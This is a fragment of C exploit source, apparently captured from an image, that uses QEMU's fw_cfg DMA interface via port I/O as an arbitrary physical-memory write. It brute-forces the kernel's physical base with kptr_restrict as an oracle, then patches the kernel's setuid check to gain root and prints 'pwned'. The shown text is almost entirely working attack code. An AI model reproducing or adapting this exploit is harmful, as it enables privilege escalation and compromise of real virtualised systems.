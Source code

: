 ```c
        cmd_physaddr = default_get_cmd(fw_ctl_read | (FW_CFG_INITRD_DATA << 16), phys_addr, 1);
    else
        cmd_physaddr = get_cmd(fw_ctl_read | (FW_CFG_INITRD_DATA << 16), phys_addr, 1);
    
    cmd_physaddr_lo = (uint32_t)(cmd_physaddr & 0xFFFFFFFFU);
    cmd_physaddr_hi = (uint32_t)(cmd_physaddr >> 32);

    outl(htonl(cmd_physaddr_hi), BIOS_CFG_DMA_ADDR_HIGH);
    outl(htonl(cmd_physaddr_lo), BIOS_CFG_DMA_ADDR_LOW);

    return 1;
}

uint32_t check_kptr_restrict(){
    uint32_t r;
    FILE* f;
    f = fopen(KPTR_RESTRICT, "rb");
    fscanf(f, "%d", &r);
    fclose(f);
    return r;
}

int main(int argc, char** argv)
{       
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    // to gain this you need an actual vuln
    ioperm(0, 0xffff, 1);

    // phys kaslr bruteforce (using kptr_restrict as oracle)
    puts("start of bruteforce");
    uint64_t phys_kbase;
    for(phys_kbase = CONFIG_PHYSICAL_START + CONFIG_PHYSICAL_ALIGN * 0x10000; phys_kbase >= CONFIG_PHYSICAL_START; phys_kbase -= CONFIG_PHYSICAL_ALIGN){
        if(!arbw(phys_kbase + KPTR_RESTRICT_OFFSET, 0xaa, NULL))
            goto err;
    }
    printf("phys kbase @ %p\n", phys_kbase);

    if(!arbw(phys_kbase + SETUID_CHECK, SETUID_PATCH, NULL))
        goto err;

    puts("pwned");
    return 0;

    err:
    puts("exploit failed");
    return 1;
}
```
